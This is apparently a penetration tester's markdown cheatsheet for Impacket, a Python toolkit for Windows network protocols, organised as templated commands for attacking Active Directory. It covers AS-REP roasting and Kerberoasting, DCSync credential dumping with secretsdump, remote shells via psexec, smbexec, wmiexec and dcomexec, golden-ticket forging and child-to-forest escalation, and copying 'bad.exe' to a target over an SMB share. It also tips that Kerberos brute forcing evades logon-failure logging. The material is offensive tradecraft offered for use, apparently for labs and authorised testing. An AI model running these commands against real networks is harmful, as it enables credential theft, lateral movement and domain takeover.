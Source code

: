 # Impacket 

WARNING impacket does not handle NTFS well - [Ippsec Blackfield HTB](https://www.youtube.com/watch?v=IfCysW0Od8w)

From [Impacket Github](https://github.com/SecureAuthCorp/impacket)
*"Impacket is a collection of Python classes for working with network protocols."*
## What protocols are featured?
-   Ethernet, Linux "Cooked" capture.
-   IP, TCP, UDP, ICMP, IGMP, ARP.
-   IPv4 and IPv6 Support.
-   NMB and SMB1, SMB2 and SMB3 (high-level implementations).
-   MSRPC version 5, over different transports: TCP, SMB/TCP, SMB/NetBIOS and HTTP.
-   Plain, NTLM and Kerberos authentications, using password/hashes/tickets/keys.
-   Portions/full implementation of the following MSRPC interfaces: EPM, DTYPES, LSAD, LSAT, NRPC, RRP, SAMR, SRVS, WKST, SCMR, BKRP, DHCPM, EVEN6, MGMT, SASEC, TSCH, DCOM, WMI, OXABREF, NSPI, OXNSPI.
-   Portions of TDS (MSSQL) and LDAP protocol implementations.

Impacket is an awesome suite of scripts written in python that are incorpated into tools like [[Crackmapexec-Cheatsheet]]. It is very useful suite of tools for [[Active-Directory-Enumeration]], [[Active-Directory-Footholding]], [[Attacking-Kerberos]], [[Active-Directory-Lateral-Movement]] and general [[Active-Directory-Privilege-Escalation]].

Haak9 Technical tips
```bash
# All the Impacket scripts support Kerberos authentication as well:
# -k -no-pass
# must specify host as FQDN and user as realm/user
       
# MISC
# - NETLOGON is inefficient (SMB, rpcclient)
# - RDP is slow
# - LDAP binds are faster but still result in event 4625

# Ask for password
kinit user

# Events ID
# - Failing Kerberos pre-authentication DOES NOT trigger a Logon failure event (4625):
# - Have to manually specify event logging for Kerberos (which is in a different location)
# - If you're only logging on traditional “Logon failures”, you'd miss this.
# - Now failures will be logged as event 4771.
# - So Kerberos pre-auth is a faster and potentially stealthier way to bf password.
```

## dccomexec.py 
Useful for [[Active-Directory-Lateral-Movement]].  A semi-interactive shell similar to wmiexec.py, but using different DCOM endpoints. Currently supports MMC20.Application, ShellWindows and ShellBrowserWindow objects.
```bash
dccomexec.py $domain/$username:$password@$IP <command>
```
## dpapi.py
Password Encryption tool on Windows

## GetNPUsers.py
For users that do not require Kerberos preauthentiation: 
'Do not require Kerberos preauthentication' set (UF_DONT_REQUIRE_PREAUTH). 
Output is compatible with JtR:[[John-The-Ripper-Cheatsheet]] use `-format hashcat` for  hashcat:[[Hashcat-Cheatsheet]] 

```bash
GetNPUsers.py  -dc-ip $IP -request '$domain/' 
GetNPUsers.py  -dc-ip $IP -request '$domain/' -format hashcat
```
This example will attempt to list and get TGTs for those users that have the property:
```bash
# Get TGT for a user
→ GetNPUsers.py $domain/$user -no-pass
# Get a list of users with UF_DONT_REQUIRE_PREAUTH set
→ GetNPUsers.py $domain/$user:password or GetNPUsers.py $domain/$user
# Request TGTs for all users
→ GetNPUsers.py $domain/$user:password -request or GetNPUsers.py $domain/$user
# Request TGTs for users in a file
→ GetNPUsers.py $domain/ -no-pass -usersfile users.txt
```

## GetTGT.py
Given a password, hash or aesKey, this script will request a TGT and save it as ccache.
```bash
getTGT.py -hashes lm:nt domain.com/user
```

## GetST.py
Given a password, hash, aesKey or TGT in ccache, this script will request a Service Ticket and save it as ccache. If the account has constrained delegation (with protocol transition) privileges you will be able to use the -impersonate`.
switch to request the ticket on behalf another user.
```bash
getST.py -hashes $lm:$nt -spn $spn/$spn-dc $domain$/$user
```

## GetUserSPNs.py
This example will try to find and fetch Service Principal Names that are associated with normal user accounts. Output is compatible with JtR and HashCat.
```bash
GetUserSPNs.py -dc-ip $dc-ip $spn.info/$notanadmin
```

## mssqlclient.py

```bash
mssqlclient.py -port $PORT $domain/$user@$IP -windows-auth
```

## psexec.py
Similiar to [[Sysinternals-Psexec]] like functionality example using [RemComSvc](https://github.com/kavika13/RemCom). Runs as nt system - wmiexec.py runs as Administrator.
```bash

psexec.py $domain/$username:$password@$IP <command>
```

## raiseChild.py
This script implements a child-domain to forest privilege escalation by (ab)using the concept of Golden Tickets and ExtraSids. [[Attacking-Kerberos]] 
```bash
python raiseChild.py childDomain.net/$adminuser
python raiseChild.py childDomain.net/$adminuser:mypwd
python raiseChild.py -hashes LMHASH:NTHASH childDomain.net/$adminuser
```
This will perform the attack and then psexec against target-exec as Enterprise Admin
```bash
python raiseChild.py -target-exec targetHost childDomainn.net/$adminuser
```
This will save the final goldenTicket generated in the ccache target file
```bash
python raiseChild.py -w ccache childDomain.net/$adminuser
```

## secretsdump.py

Exploit DCSync Privileges
```bash
secretsdump.py -dc-ip $IP $domain/$user@$ip
```

## smbexec.py
A similar to `psexec.py` without using [RemComSvc](https://github.com/kavika13/RemCom). Instantiates a local smbserver to then receive the output of commands.
```bash
smbexec.py $domain/$username:$password@$IP <command>
```
This is useful in the situation where the target machine does NOT have a writeable share available.

## smbserver.py
Host a Python implementation of an SMB server. Allows to quickly set up shares and user accounts
```bash
smbserver.py $SHARENAME /path/to/your/local/share -smb2support
smbserver.py $SHARENAME /path/to/your/local/share --username $user --password 
$password
```
[IppsecRocks](https://ippsec.rocks/?#), start the smbserver your current directory
```bash
impacket-smbserver scriptserver $(pwd) -smb2support -user user -password pass
```
On remote:
```powershell
$pass = convertto-securestring 'pass' -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential('user', $pass)
New-PSDrive -Name user -PSProvider FileSystem -Credential $cred -Root \\$IP
```

```powershell
copy \\$ip\$Sharename\bad.exe
# Move into Share
cd $Share:
```

## ticketer.py
This script will create Golden/Silver tickets from scratch or based on a template (legally requested from the KDC).
```bash
ticketer.py -nthash <krbtgt/service nthash> -domain-sid <your domain SID> -domain <your domain FQDN> baduser
```

## wmiexec.py
A semi-interactive shell, used through Windows Management Instrumentation. It does not require to install any service/agent at the target server. Runs as Administrator. Highly stealthy.
```bash
wmiexec.py $domain/$username:$password@$IP <command>
```

## References
[IppsecRocks](https://ippsec.rocks/?#)
[Haax9](https://cheatsheet.haax.fr/windows-systems/exploitation/remote_execution_techniques/)
[RemComSvc](https://github.com/kavika13/RemCom)